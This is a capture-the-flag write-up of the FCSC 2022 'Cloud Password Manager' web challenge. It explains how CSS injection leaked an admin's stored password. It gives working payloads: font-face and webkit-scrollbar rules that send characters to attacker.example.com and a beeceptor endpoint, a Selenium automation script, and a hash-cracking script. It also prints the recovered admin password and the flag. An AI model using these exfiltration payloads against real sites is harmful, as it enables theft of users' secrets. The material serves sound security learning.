









# Cloud Password Manager

## Table of contents
- [Cloud Password Manager](#cloud-password-manager)
  - [Table of contents](#table-of-contents)
  - [First overview](#first-overview)
    - [Create an account](#create-an-account)
    - [Admin context simulation](#admin-context-simulation)
  - [Exploit](#exploit)
    - [Brainstorm](#brainstorm)
    - [The problem](#the-problem)
    - [First solution](#first-solution)
    - [The problem (bis)](#the-problem-bis)
    - [CSP (Content Security Policy)](#csp-content-security-policy)
    - [The solution (bis)](#the-solution-bis)
    - [Crafting our payload](#crafting-our-payload)
  - [Crack the hash](#crack-the-hash)
  - [Getting the flag](#getting-the-flag)
  - [Conclusion](#conclusion)
  - [References](#references)

<hr>
A cloud password storage company comes under attack.

As the ``admin`` is unreachable, you are asked to estimate very quickly if it is possible to connect to his account.

``https://cloud-password-manager.france-cybersecurity-challenge.fr/``

Note: User accounts older than one hour are automatically deleted.
<hr>

## First overview

So let's have a look to this challenge!



Hum there are some important information here, let's group them:

- We have admin password hash: ``sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf``
- Admin password is stored in his account
- There are pages we can access: ``/flag``, ``/login`` and ``/passwords``

Basically we can try ``/flag`` :-)



That page is restricted to the admin account, it would unfortunately be more difficult... Let's continue our recognition!

### Create an account

To access all pages of the website, we have to create an account, but there are some restrictions for the password:
- Exactly 12 characters
- At least 1 uppercase letter
- At least 1 lowercase letter
- At least 1 digit

So we can login with these creds for example: ``Ruulian:P4sswordpass``. And we arrive in ~~hell~~ heaven...



Here we can see that we can set our own CSS on the page and send it to admin for a review.

### Admin context simulation

Hum if we remember, hackers on the main page were saying that admin stores his password on his page. We can post a password which respects the rules to simulate admin context:



Now it's time to exploit!

## Exploit

### Brainstorm

First idea we have with these informations is ``CSS Exfiltration``, because we can inject CSS as we want and we have to exfiltrate data.. What a brainstorm!

If we do some research, we can see that [classical CSS Exfiltration](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d) allows to leak elements attributes like CSRF tokens.

### The problem

If we go deeper into the code, we can see that our password is not in an element attribute:

```html
<div class="col-md-4 pb-4">
	<div class="toast show w-75 mx-auto">
		<div class="toast-header">
			<a href="passwords/542"><i class="fas fa-trash lp-2"></i></a>&nbsp;&nbsp;
			<span class="ml-4"><strong>This website</strong></span>
		</div>
		<div id="p1" class="toast-body password">P4sswordpass</div>
	</div>
</div>
```

So we have to find a better way to exfiltrate data than leaking attributes.

### First solution

After some research, we can find a [paper](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) which explains a cool way to exfiltrate element content.

```html
<style>
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?A); /* fetched */
 unicode-range:U+0041; /* Unicode for A */
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?B); /* fetched */
 unicode-range:U+0042; /* Unicode for B */
}
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?C); /* not fetched */
 unicode-range:U+0043; /* Unicode for C */
}
#sensitive-information{
 font-family:poc;
}
</style>
<p id="sensitive-information">AB</p>
```

To understand this payload we have to know a little about CSS: it is possible to specify a custom font with ``@font-face``. There are 2 required parameters, ``font-family`` which specifies the name of the font and ``src`` which specifies the source of the font. Here there is an optional parameter: ``unicode-range``. This parameter specifies for which character the font will be used.

So now we can fully understand this exploit.

```css
#sensitive-information{
 font-family:poc;
}
```
This part of the code tries to call the fonts with ``font-family:poc;`` but a font will be loaded **only** if element's content respects the ``unicode-range``. So if there is the character specified in unicode-range in ``#sensitive-information`` content, the font source will be requested. We specify our evil url and we can exfiltrate characters like that!

### The problem (bis)

We can try our exploit with our password ``P4sswordpass`` in ``p1`` id.

Here is our payload:

```css
@font-face{
 font-family:poc;
 src: url(http://attacker.example.com/?4);
 unicode-range:U+0034; /* Unicode for 4 because there is a 4 in our password */
}
#p1{
 font-family:poc;
}
```

If the exploit works, we'll receive a request on ``http://attacker.example.com/?4``, but... 0... still waiting...



I think we have forgotten to check something...



### CSP (Content Security Policy)

Let's check the CSP:
```
content-security-policy: default-src 'none'; script-src https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.min.js https://cdnjs.cloudflare.com/ajax/libs/popper.js/2.11.2/umd/popper.min.js https://cdnjs.cloudflare.com/ajax/libs/bootstrap/4.6.1/js/bootstrap.min.js; style-src 'self' 'unsafe-inline'; font-src 'self'; img-src http://* https://*; base-uri 'none';
```

If we let only the important parts:
```
style-src 'self' 'unsafe-inline'; -> disallows @import
img-src http://* https://*; -> allows all images from http or https
font-src 'self'; -> allows only fonts from https://cloud-password-manager.france-cybersecurity-challenge.fr
```
The others policies are not important in our case.

Anyway our trick with ``font-face`` source doesn't work.. :(

### The solution (bis)

If we go deeper into our research, we can find a [paper](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/) which talks about text node exfiltration with a scrollbar.
In Chrome browser, there is a way to select scrollbars with CSS pseudo-element ``::-webkit-scrollbar``, so the trick is to use our initial payload with ``font-face`` and make sure that when the font is loaded, it will create a scrollbar.

First, let's check if admin is on a chrome browser by sending this css:
```css
#p1{
  overflow: auto; /* Generate a scrollbar automatically when width is overflowed */
  width: 3px; /* Reduce width to generate the scrollbar */
  height: 30px; /* Fix the height to force the scrollbar */
}

/* Detect scrollbar */
#p1::-webkit-scrollbar{
    background-image: url(https://fcsc2022.free.beeceptor.com?chrome); /* GET request to our endpoint */
}
```

If we receive ``?chrome``, it means that admin is using Chrome browser, which means that we can use this exploit!



We can continue on that way!

### Crafting our payload

It's cool we can create a scrollbar, but what about generating a scrollbar when a font is loaded? On ``font-face`` [documentation](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face), we can see ``size-adjust`` descriptor which modify the size of characters affected by the font.

How can we use it? It's pretty easy, if we really increase the size of the character affected by the font, it will create a scrollbar and with ``#p1::-webkit-scrollbar`` we can make a request to our endpoint. So we have all we need!

Here is our exploit:
```css
@font-face{
  font-family:toto;
  src:url(/static/fonts/Georgia.ttf); /* This source is allowed, found in /static/bootstrap.css */
  size-adjust:1000%; /* Increase a lot the char size */
  unicode-range:U+0041; /* Unicode for A */
}

#p1{
  overflow:auto;
  width:150px; /* Increase width to be sure that the scrollbar doesn't spawn if font not loaded */
  height:60px; /* Same */
  font-family: toto;
}

/* Detect scrollbar */
#p1::-webkit-scrollbar{
    background-image: url(https://fcsc2022.free.beeceptor.com?A); /* Exfiltrate char */
}
```

We have now to bruteforce the chars, we can make a little Python code:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import string
import time
import random
from selenium import webdriver
from selenium.webdriver.firefox.options import Options as FirefoxOptions

evil_endpoint = "https://fcsc2022.free.beeceptor.com/"

# Uppercase + lowercase + digits
chars = string.ascii_letters + string.digits 

print(f"[\x1b[92m+\x1b[0m] Starting exploit")

# Generating random username 
username = "".join([random.choice(chars) for k in range(10)])
password = "P4sswordpass"

# Creating driver
options = FirefoxOptions()
options.add_argument("--headless")
driver = webdriver.Firefox(options=options)

# Login with credentials
driver.get("https://cloud-password-manager.france-cybersecurity-challenge.fr/login")
driver.find_element_by_name("username").send_keys(username)
driver.find_element_by_name("password").send_keys(password)
driver.find_element_by_tag_name("form").submit()

print(f"[\x1b[92m+\x1b[0m] Logged in with credentials: {username}:{password}")

# Payload template
template = """
@font-face{
    font-family:toto;
    src:url(/static/fonts/Georgia.ttf);
    size-adjust:1000%%; /* %% because of format string */
    unicode-range:unicoded_char;
}
#p1{
    overflow:auto;
    width:150px;
    height:60px;
    font-family: toto;
}
#p1::-webkit-scrollbar{
    background-image: url(%s?character_returned);
}
""" % evil_endpoint

for char in chars:
    print(f"[\x1b[94m>\x1b[0m] Sending payload for '{char}'")

    # Encoding character 
    unicoded = f"U+00{char.encode().hex()}"

    # Replacing template values to put our characters
    res = template.replace("character_returned", char).replace("unicoded_char", unicoded)
    
    time.sleep(2)

    # Clicking on button to update style
    driver.find_elements_by_tag_name("button")[-1].click()

    # Filling the textarea with our css
    style_content = driver.find_element_by_name("style_content")
    style_content.clear()
    style_content.send_keys(res)

    # Update our style
    driver.find_elements_by_tag_name("form")[1].submit()

    time.sleep(1)
    
    # Send to the admin
    driver.find_elements_by_tag_name("form")[-1].submit()

    time.sleep(5)

# Closing driver
driver.close()

print(f"[\x1b[92m+\x1b[0m] Exploit finished, check your evil endpoint {evil_endpoint}")
```

I tried to comment the code as well as possible to make it clearful. We just have to wait for the characters on our evil endpoint.



We have all of our characters: ``hkmquGIOST24``! They are corresponding to password policy (12 characters, 2 digits, 5 lowercase letters, 5 uppercase letters). Now it's time to find the admin password...

## Crack the hash

We have several ways to crack the hash with those characters, we could use [colabcat](https://github.com/someshkar/colabcat) (probably the faster way) but I preferred to make my own code to learn a little about multithreading in Python.

The best way I found to multithread that is to make one thread by first character and move the characters, here is an example:
```
abcd -> One thread
bcda -> One thread
cdab -> One thread
dabc -> One thread
```

So the code will bruteforce the chars from right to left and all passwords are going to be generated (``12!`` passwords) in twelve times less time because we have 12 characters (Duration for ``11!`` passwords).

Here is our code:
```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from werkzeug.security import check_password_hash
from multiprocessing import Process

chars = "hkmquGIOST24"

# Function which test if hash and password are corresponding
def test(pass_to_test):
    if check_password_hash("sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf", pass_to_test):
        print(f"[\x1b[92m+\x1b[0m] Password found: '{pass_to_test}'!")
        exit()

# Generate all permutations of chars
def permutations(start, end=[]):
    if len(start) == 0:
        res = "".join(end)
        test(res)
    else:
        for i in range(len(start)):
            permutations(start[:i] + start[i+1:], end + start[i:i+1])


print(f"[\x1b[92m+\x1b[0m] Starting bruteforce...")

for i in range(1, 13):
    # Generate all strings with differents first char
    res = chars[-i:] + chars[:-i]

    print(f"[\x1b[94m>\x1b[0m] Creating thread for those chars: {res}")
    
    # Create thread which executes 'permutations' function with strings generated
    add = Process(target=permutations, args=(list(res),))

    # Start thread
    add.start()
```

Now we can launch it and wait a little...

```
ruulian@FCSC2022~$ ./crack.py 
[+] Starting bruteforce...
[>] Creating thread for those chars: 4hkmquGIOST2
[>] Creating thread for those chars: 24hkmquGIOST
[>] Creating thread for those chars: T24hkmquGIOS
[>] Creating thread for those chars: ST24hkmquGIO
[>] Creating thread for those chars: OST24hkmquGI
[>] Creating thread for those chars: IOST24hkmquG
[>] Creating thread for those chars: GIOST24hkmqu
[>] Creating thread for those chars: uGIOST24hkmq
[>] Creating thread for those chars: quGIOST24hkm
[>] Creating thread for those chars: mquGIOST24hk
[>] Creating thread for those chars: kmquGIOST24h
[>] Creating thread for those chars: hkmquGIOST24
[+] Password found: '4mSIq2uGThOk'!
```

Let's gooooo, we finally got it! We just have to connect to admin account with credentials: ``admin:4mSIq2uGThOk``.

## Getting the flag

We are successfully connected to admin account!



We just have to go on ``/flag`` and find our flag :-)


Here is our flag: ``FCSC{285b45edec8067daa4e8548168cc37cbb20cadc6162006cd248778adce9178c0}``

## Conclusion

This challenge was really nice, we learned a lot about CSS exfiltration with a little bit of cryptography. Thanks a lot to the creator for this great challenge!

## References

- https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection/html-injection-char-by-char-exfiltration
- https://x-c3ll.github.io/posts/CSS-Injection-Primitives/
- https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face
- https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/size-adjust
- https://pymotw.com/2/multiprocessing/basics.html
- https://developer.mozilla.org/en-US/docs/Web/CSS/::-webkit-scrollbar
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP